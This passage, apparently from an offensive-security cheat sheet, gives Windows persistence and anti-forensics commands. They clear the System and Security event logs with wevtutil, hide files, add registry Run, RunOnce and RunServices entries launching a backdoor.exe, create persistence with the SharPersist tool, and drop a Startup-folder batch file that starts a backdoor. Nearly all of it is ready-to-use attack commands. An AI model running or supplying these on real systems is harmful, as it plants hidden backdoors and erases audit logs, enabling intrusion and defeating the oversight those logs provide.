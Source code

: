 ### Clear System and Security Logs

```powershell
cmd.exe /c wevtutil.exe cl System
cmd.exe /c wevtutil.exe cl Security
```

## Simple User

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry HKCU

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using the command line

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```
